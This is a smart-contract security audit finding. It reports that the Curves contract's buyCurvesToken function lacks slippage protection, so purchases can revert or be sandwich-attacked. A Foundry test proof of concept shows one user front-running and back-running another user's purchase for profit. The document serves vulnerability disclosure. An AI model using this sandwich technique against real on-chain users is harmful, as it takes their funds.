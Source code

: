 ## Purchases are vulnerable to being sandwich attacked or griefed
	
**Description:** 
When someone calls `Curves::buyCurvesToken` they have no choice of acceptable slippage for their purchase. Could cause two issues.
1. If the user sends only the correct amount of ether with their `buyCurvesToken` transaction, if any purchase of the same token completes before the users transaction the users transaction will revert with a `InsufficientPayment` error as the price will have changed. If this is popular token that is being traded frequently this happening could be quite probably and ruin UX and cost them gas in reverted transactions.
2. If the user chooses to send a little more ether with their purchase then they A. won't get refunded the additional ether if the price doesn't change (or goes down) and B. would allow someone to sandwich attack their transaction, buying and selling tokens before/after the users tx is complete.

**Impact:** 
At the very least this approach is poor UX and will cause a lot of gas wasted on reverted transactions if there is a lot of volume on a token someone is trying to buy.
At the worst it would allow MEV bots to sandwich attack any users that send more than minimum requires amount for a purchase. 

**Proof of Concept:**
The following foundry test shows how a user (alice) can make a profit by just purchasing a token before another user (bob) and then selling it immediately afterwards.

```

	function testSandwichAttack() public {
		// create bob token
		createToken(bob);

		// have bob buy some initial tokens
		buyToken(bob, bob, 5);

		// have alice sandwich chads purchase
		uint256 aliceStartBalance = alice.balance;
		buyToken(alice, bob, 1);
		buyToken(chad, bob, 1);
		sellToken(alice, bob, 1);	
		uint256 aliceEndBalance = alice.balance;

		console2.log("Alice Start:", aliceStartBalance);
		console2.log("Alice End  :", aliceEndBalance);
	}
    

	function buyToken(address buyer, address subject, uint256 amount) public {
		vm.startPrank(buyer, buyer);
		uint256 price = curves.getBuyPrice(subject, amount);
		curves.buyCurvesToken{value: price}(subject, amount);
		vm.stopPrank();
	}

	function sellToken(address seller, address subject, uint256 amount) public {
		vm.startPrank(seller, seller);
		curves.sellCurvesToken(subject, amount);
		vm.stopPrank();
	}

```
